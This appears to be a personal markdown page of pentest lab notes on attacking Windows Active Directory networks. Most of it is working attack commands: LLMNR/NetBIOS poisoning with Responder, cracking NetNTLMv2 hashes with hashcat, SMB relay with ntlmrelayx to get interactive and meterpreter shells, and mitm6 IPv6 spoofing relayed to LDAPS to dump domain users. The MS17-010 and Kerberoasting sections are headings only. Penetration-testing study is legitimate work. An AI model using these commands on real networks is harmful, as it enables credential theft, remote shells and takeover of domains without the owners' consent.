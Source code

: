 **1 Netbios && LLMNR Name Poisoning** \
**2 Relay Attacks** \
**3 MITM6** \
**4 MS17-010** \
**5 Kerberoasting**

---

**1. LLMNR (link local multicasting name resolution:: basically DNS) Poisoning:**

- needs traffic - ideal before nmap/nessus scans
- Responder:

  `python /usr/share/responder/Responder.py -L eth0 -rdwv`

  a) try to access attacker IP address::  ![llmnr_poison](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/admin_malz_llmnr_poison.png)

  `hashcat -m 5600 windowshash.txt /usr/share/wordlists/rockyou.txt # --m 5600 module for NetNTLMv2`

---

**2. SMB Relay attacks:**

- Requirements: SMB signing must be disabled, relayed user creds must be admin on machine, && network sharing enabled
- setup ntlmrelay:: \  ![ntlmrelay.py](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/ntlmrelay_py.png)
  a) Find machines w/ smb enabled: Nessus or Nmap: \

`/opt/impacket/examples/$ python3ntlmrelayx.py -tf targets.txt -smb2support (-i) #python3 -m pip install . ## -i interactive`

- Working but keeps failing::  ![revmalz](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/revshell_smb_malz.png)
  &&  ![break](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/malz_smb_breaking.png)
- shells W/ creds::  ![shells](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/meterpreter_psexec_shells.png) \
  *wmiexec.py && smbexec.py first! psexec and smb metepreter is very noisy*

---

**3. Pv6 Attacks: DNS relay:**

*Requirements, must have certificate in DC: manage -> add role/feature -> next(3x) -> AD cert services -> CA -> next && restart -> install -> validity period 99yrs*

Setup relay && ipv6 spoofing:

a. `/opt/mitm6/mitm6$ sudo python3 mitm6.py -d carbon.local #(DC) ` \
b. `/opt/impacket/examples$ sudo python3 ntlmrelayx.py -6 -t ldaps://192.168.86.205 -wh fakewpad.carbon.local -l lootme` \
c. `xdg-open /opt/impacket/examples/lootme/domain_users_by_group.html`

![IPv6_relay](https://github.com/crcirq32/Notes/blob/main/Ethical/Screenshots/relay_ipv6.png)

---

4. MS17-010 

---

[tutorial] (https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa) \
[PW list] (https://github.com/danielmiessler/SecLists/tree/master/Passwords) \
[impacket] (https://github.com/SecureAuthCorp/impacket) \
[mitm6] (https://github.com/dirkjanm/mitm6)
